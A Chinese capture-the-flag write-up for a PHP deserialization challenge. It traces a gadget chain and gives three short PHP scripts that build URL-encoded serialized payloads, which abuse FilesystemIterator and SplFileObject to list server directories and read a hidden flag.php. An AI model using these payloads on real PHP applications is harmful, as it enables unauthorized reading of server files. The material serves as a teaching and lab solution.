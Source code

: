 通过审计，发现链子为

```bash
A::__constuct->C::vaild->A::__wakeup()
```

我们不能使用特殊字符，可以利用字母和数字进行操作，而且可以看到

```bash
echo new  $this->class ($this->para);
```

可以通过 echo 调用内置类中的\_\_toString()，从而利用 php 内置类，所以我们可以使用 PHP 内置类

先遍历目录

```bash
<?php
class A{
    public $class='FilesystemIterator';
    public $para='/var/www/html';
    public $check;
}
$a=new A();
echo urlencode(serialize($a));
```

遍历得到**aMaz1ng\_y0u\_coUld\_f1nd\_F1Ag\_hErE**

继续遍历

```bash
<?php
class A{
    public $class='FilesystemIterator';
    public $para='/var/www/html/aMaz1ng_y0u_coUld_f1nd_F1Ag_hErE';
    public $check;
}
$a=new A();
echo urlencode(serialize($a));
```

得到 flag.php，之后结合 SplFileObject 类进行读取

```bash
<?php
class A{
    public $class='SplFileObject';
    public $para='/var/www/html/aMaz1ng_y0u_coUld_f1nd_F1Ag_hErE/flag.php';
    public $check;
}
$a=new A();
echo urlencode(serialize($a));
```

# GlobIterator，DirectoryIterator,FilesystemIterator:遍历目录
